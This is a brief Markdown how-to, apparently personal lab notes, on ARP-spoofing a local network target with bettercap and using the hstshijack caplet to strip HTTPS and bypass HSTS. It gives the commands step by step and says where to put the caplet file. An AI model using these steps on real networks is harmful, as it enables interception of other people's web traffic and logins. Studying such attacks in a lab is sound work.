 # Arp-Spoofing for HTTPS

## Downgrade HTTPS to HTTP

```bash
bettercap -iface eth0 -caplet https_arp_attack.cap
```

```bash
help
```
Make sure they are on, running:

![image](https://github.com/user-attachments/assets/787dd6e8-5321-4e7d-875a-15eb0ee8262b)


Show caplets:

```bash
caplets.show
```

Run hstshijack/hstshijack caplet:

```bash
hstshijack/hstshijack
```
Then on the target machine if you go a website uses https (go to google.com and search linkedin, click the linkedin web page at the beginning):

![image](https://github.com/user-attachments/assets/df57bb4c-ce8d-48a6-be4f-60b797290fc6)


PS: it will only work when the user uses non https search engine like google.ie

## For Bypassing HSTS:
Put `hstshijack.cap` here: /usr/local/share/bettercap/caplets/hstshijack
